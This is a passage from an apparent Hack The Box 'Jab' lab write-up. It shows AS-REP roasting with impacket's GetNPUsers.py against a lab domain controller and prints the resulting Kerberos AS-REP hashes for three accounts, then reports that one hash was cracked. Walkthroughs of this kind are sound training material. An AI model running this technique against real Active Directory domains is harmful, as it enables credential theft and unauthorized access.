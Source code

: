 ```bash
molivarez
lbragg
ilaboy
```
{: .nolineno}
{: .nolineno}

As I got the usernames lets look for TGT tickets with AS-REP-ROASTING method through impacket Tool called <mark style="background: #FF5582A6;">GetNPUsers.py</mark> .

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Jab]
└─$ /opt/Tools/impacket/examples/GetNPUsers.py -no-pass 'jab.htb/' -dc-ip 10.10.11.4 -request -usersfile usernames.txt 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] invalid principal syntax
[-] User nenglert does not have UF_DONT_REQUIRE_PREAUTH set
[-] User aslater does not have UF_DONT_REQUIRE_PREAUTH set
[-] User rtruelove does not have UF_DONT_REQUIRE_PREAUTH set
[-] User pwoodland does not have UF_DONT_REQUIRE_PREAUTH set
[-] User pparodi does not have UF_DONT_REQUIRE_PREAUTH set
[-] User mhernandez does not have UF_DONT_REQUIRE_PREAUTH set
[-] User atorres does not have UF_DONT_REQUIRE_PREAUTH set
[-] User apugh does not have UF_DONT_REQUIRE_PREAUTH set
....
....
$krb5asrep$23$jmontgomery@JAB.HTB:1d32911586a3b7d810ef3eb0fe08cd88$da838065062d5def822642eb12db36093c5a24f4d95d62ddf9a39f77607935589ed18b814e9129fc9fd6ffb3b5a346a2f52f6d34693870ce86c9521cdf6a8ee66baacee4795c3cd6f5d1833db0e896b2d8d188e0b65a8439db97cae7c4970239ada8441ab6b81eca9346dbbebd5bb7af6f66f6a8f4944102328f8156828be71044b7d38a238cc611794236636c98c5e602ee41c5150f918ed4ede45ddf499ef28524ca44e176a97da17660a3b345e533a393a8b75969b1a9a4c067ac2057adb2dbbb20b84779b7d375f99c38a8057ff16bb2ea9f9817bef5d097369140b794bb2f1f
...
$krb5asrep$23$lbradford@JAB.HTB:c8f4dbb3df6544bf732dc692b8360648$cb4b9804e0422730921cfd566e692ef8d567dde1241bd04ec7ee10891229d1c0703b40d5946ce411713b534ed4e9ef53a94557676bc0326b48839f210388b2f7a6e55dea66e0a5fd290ab1261cf4047525a3582bf50d05b24f92d5b08f953c7d649b96172b809e9dff09270cfc8df6980a2160b638129f8836863c91c0f7e2eaec1a94a5a85160e86f9f3e4205c86827ad1a45291479f43f61a6dca77888579c33f62624a92898c259caa16834cd5377435408364ced573363fda91c0c9a5459a156eb582f95d94b071ef7303ed942ca763685b2a5a828a2e3daf24e44f6b3b75242
...
$krb5asrep$23$mlowe@JAB.HTB:c17501d904091a954dcb12c72e4cf0ff$4af5f48051e8576615e5fbe7cbb0b33c7c0dce4feed5b5a7642e37a44b074378550b4b38cf181d9b4dcb05834dce1a297ed4bcf73db72a98afcead8e78e940642142b605dad5599d70e98555ac877e28e441ea108b58ecebd9cf2171389a1a9dd964526875a25e41dde6c04da707328f270bfafc857490f1c164da9111b98015b45b0ae945252b5007efb960d5f00d656cd75cac3568fa6fa9fe132eb8692cb1afa9b5e7b5443fa7ae244e00e575d2a73e85b4cb0156d352bfbf51c7fd5598cc683d7f74e2a2513d2584c2bcfbcea2eccefc3698655708951a31e243f209ea86f8ad
```
{: .nolineno}
{: .nolineno}

After a while I got 3 tickets and I try to crack all but got only 1 user result that is of user <span style="color:#88ff91">jmontgomery</span> .
